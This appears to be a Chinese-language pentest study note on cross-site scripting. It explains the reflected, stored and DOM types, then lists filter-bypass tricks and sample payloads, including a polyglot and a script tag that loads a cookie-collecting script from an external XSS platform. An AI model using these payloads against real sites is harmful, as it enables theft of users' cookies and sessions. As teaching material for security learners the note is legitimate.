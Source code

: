 # XSS

![XSS%20cbfd67a6ffd948b980b7eef26267b582/Untitled.png](XSS%20cbfd67a6ffd948b980b7eef26267b582/Untitled.png)

# 简介

#在阅读本章之前，请阅读/基础知识/AJAX、同源策略、JSONP、CORS章节

Javascript定义了网页的行为，而如上图所示，如果用户的输入可以插入网页，作为网页本身的一部分，则可能导致攻击者自定义的恶意js语句执行。

---

# 原理

在用户输入字符串，字符串被拼接成网页内容一部分这个过程中，存在三种不同的处理方式，这三种方式被称为三种不同类型的XSS。

### 反射型XSS

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

### 存储型XSS

1. 攻击者将恶意代码提交到目标网站的数据库中。
2. 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

### DOM型XSS

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL。
3. 用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

---

# 技巧

针对xss漏洞的发现步骤与针对SQL注入漏洞的发现步骤近似，都是：

**闭合前后语句使得结构完整显示正常→插入自定义语句，提交/刷新观察结果**

最常见的xss语句如下：

```python
"><script>alert('XSS');</script>
#">用于闭合之前的js语句
#<script>...</script>用于执行自定义语句，一般使用alert(1)等，单纯因为弹窗比较明显
```

在实际过程中，我们会使用xss平台：

```python
"><sCRiPt sRC=//xss8.cc/xxxxx></sCrIpT>
#xss8.cc为一个xss平台，后方的xxxxx即为个人的js脚本，该脚本会自动获取网页用户信息（UA、IP、
#操作系统、cookie等，并在xss平台进行保存展示）
```

### 常见的绕过方式

- 大小写绕过：<script>→<SCriPt>
- 双写绕过：<script>→<scrscriptpt>
- 编码绕过：<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>【unicode编码，当然也可以考虑base64编码等】
- javascriptAPI绕过：javascript:alert('XSS')
- ...集团安全链接

**#xss的利用及绕过方式极其多，无法充分描述，下面列出几个常用payload**

```python
<script>alert(/xss/);</script> //经典语句
<BODY ONLOAD=alert('XSS')>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<a href = javasript:alert(1)>
```

#以及一个看上去很万能的缝合payload：jaVasCript:/*/*`/*\\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

#下列为可用标签，可用事件，可用payload(8000+)，可用payload并未进行闭合之前js语句的操作

[标签 tag](XSS%20cbfd67a6ffd948b980b7eef26267b582/%E6%A0%87%E7%AD%BE%20tag%2038b85d28fe574a378b1c4bdff04037c0.md)

[事件 event](XSS%20cbfd67a6ffd948b980b7eef26267b582/%E4%BA%8B%E4%BB%B6%20event%20c9d6404c2fb9493185f27916e62362f3.md)

[有效载荷 payload ](XSS%20cbfd67a6ffd948b980b7eef26267b582/%E6%9C%89%E6%95%88%E8%BD%BD%E8%8D%B7%20payload%202e42def0c4c242d4af8bbc6f8c4b8074.md)